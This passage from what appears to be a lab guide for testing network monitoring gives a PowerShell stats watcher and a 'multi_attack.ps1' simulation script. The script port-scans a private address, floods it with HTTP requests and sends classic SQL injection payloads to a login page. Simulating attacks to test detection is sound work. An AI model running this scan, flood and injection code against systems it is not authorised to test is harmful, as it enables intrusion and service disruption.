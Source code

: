 ```powershell
# Watch network stats
while ($true) {
    Clear-Host
    Write-Host "Network Statistics:" -ForegroundColor Cyan
    Get-NetAdapterStatistics -Name "Ethernet" | Format-Table
    Start-Sleep -Seconds 2
}
```

---

## 📚 Sample Attack Scripts Collection

Save these to `C:\attack_scripts\`:

### 1. multi_attack.ps1 (All-in-one)

```powershell
# Multi-attack simulation
$target = "192.168.100.1"

Write-Host "=== Multi-Attack Simulation ===" -ForegroundColor Cyan
Write-Host "Target: $target`n"

# 1. Port scan
Write-Host "[1] Port Scanning..." -ForegroundColor Yellow
1..100 | ForEach-Object {
    Test-NetConnection -ComputerName $target -Port $_ -WarningAction SilentlyContinue | Out-Null
}

Start-Sleep -Seconds 5

# 2. HTTP flood
Write-Host "[2] HTTP Flood..." -ForegroundColor Yellow
1..50 | ForEach-Object {
    try { Invoke-WebRequest -Uri "http://$target" -TimeoutSec 1 } catch {}
}

Start-Sleep -Seconds 5

# 3. SQL injection attempts
Write-Host "[3] SQL Injection Attempts..." -ForegroundColor Yellow
$sqli = @("' OR '1'='1", "admin'--", "1' OR 1=1--")
foreach ($payload in $sqli) {
    try {
        $url = "http://$target/login?user=$([uri]::EscapeDataString($payload))"
        Invoke-WebRequest -Uri $url -TimeoutSec 1
    } catch {}
    Start-Sleep -Milliseconds 500
}

Write-Host "`n=== Attack simulation complete ===" -ForegroundColor Green
```
